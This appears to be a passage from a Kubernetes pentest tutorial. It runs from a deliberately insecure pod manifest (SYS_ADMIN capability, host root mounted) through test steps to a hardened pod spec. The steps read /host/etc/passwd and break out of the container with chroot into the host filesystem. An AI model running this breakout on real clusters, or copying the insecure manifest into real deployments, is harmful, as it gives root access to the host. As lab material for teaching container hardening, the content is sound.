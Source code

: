 ```yaml
        - SYS_ADMIN
        - NET_ADMIN
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
```

```bash
kubectl apply -f vulnerable-pod.yaml
```

---

## Testing Pod and Container Security

### Step 1: Test privilege escalation

```bash
# Access the pod
kubectl exec -it vulnerable-pod -- /bin/bash

# Check root privileges
whoami
id

# Check host filesystem access capability
ls /host
cat /host/etc/passwd
```

### Step 2: Test container breakout

```bash
# Inside pod, check mount points
mount | grep -E "(proc|sys|dev)"

# Check capabilities
capsh --print

# Try to escape container
chroot /host /bin/bash
```

### Step 3: Create pod with better security context

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: secure-pod
  namespace: pentest
spec:
  securityContext:
    runAsNonRoot: true
    runAsUser: 1000
    fsGroup: 2000
  containers:
  - name: secure-container
    image: nginx:1.21-alpine
    securityContext:
      allowPrivilegeEscalation: false
```
